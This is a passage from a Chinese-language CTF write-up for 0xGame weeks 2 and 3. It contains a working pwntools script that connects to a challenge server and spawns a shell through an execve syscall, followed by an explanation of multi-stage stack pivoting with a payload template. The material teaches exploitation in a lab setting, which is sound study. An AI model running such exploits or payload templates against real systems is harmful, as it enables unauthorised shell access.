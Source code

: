如上图，直接把/bin/sh\x00写入buffer然后执行execve(buf_addr,0,0)即可

```
from pwn import *
#io = process('./syscall')
io = remote('47.97.58.52',42010)
context(os = 'linux',arch = 'amd64',log_level = 'debug')

io.sendlineafter(b'choice: ',b'1')
io.recvuntil(b' located at ')
addr = int(io.recvuntil(b'\n',drop = True).decode(),16)
print(addr)
io.sendlineafter(b'Input your data: ',b'/bin/sh\x00')

io.sendlineafter(b'choice: ',b'3')
io.sendlineafter(b'call: ',b'59')
io.sendlineafter(b'Input the arguments count: ',b'3')
io.sendlineafter(b'Input the argument 0:',str(addr).encode())
io.sendlineafter(b'Input the argument 1:',b'0')
io.sendlineafter(b'Input the argument 2:',b'0')
io.interactive()                
```

总结：其实week2还是很简单的，但也确实有些很难见到的题型

# 0xgame week3

week3真的上难度了，看一上午有头绪的俩题进度都不快，还有一个题是关于非栈上格式化字符串的，太复杂了我甚至都不想看

#### [Week 3] where_is_my_stack

让我想到了moe的travel of stack那题。所以临时翻了一下moe的题解，终于搞明白了,这题是关于多次栈迁移的。

什么是多次栈迁移，如何多次栈迁移呢？我们需要利用read函数的汇编代码来分析：
***多次栈迁移一般用于需要泄露libc地址或者只有一次输入的时候\***

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-33.png" alt="img" style="zoom:80%;" />

我们可以看到read的第二个参数rsi是由rax赋值的，rsi应该存储我们buf的地址，而这个buf地址是由***lea rax,[rbp + buf]\***确定的，也就是说，***我们buf存储我们输入的地址是由rbp确定的！\***

那么如果我们第一次传入payload0=padding + bss_fake_stack + read_addr

我们的rbp会被移动到bss_fake_stack,而rsp依旧停留在栈内，接下来程序会调用read，而read存储我们输入的地址buf_addr又是由rbp决定，也就是说，我们的输入会被放在bss段内，接下来执行完read后还会执行leave_ret，而我们需要做的就是把rbp再次迁移到我们输入的代码中进行。下面放一个板子

```
payload 0 = padding + bss_addr + read_addr
paylaod n = next_rbp(addr1) + shellcode + padding + read_addr + addr1(bss_addr) + leave_ret_addr
```

分析：

1.payload0会把rbp送到bss_addr,而rsp依旧停留在栈内

2.执行完read函数后rbp被弹到我们输入到bss_addr处的addr1，而rsp被移动到bss_addr,紧接着执行我们传入的leave-ret-addr使rbp被移动到next_rbp，rsp又再次移动到之前rbp的位置+1即&shellcode，然后执行我们的shellcode进而再通过read进行下一次跳转

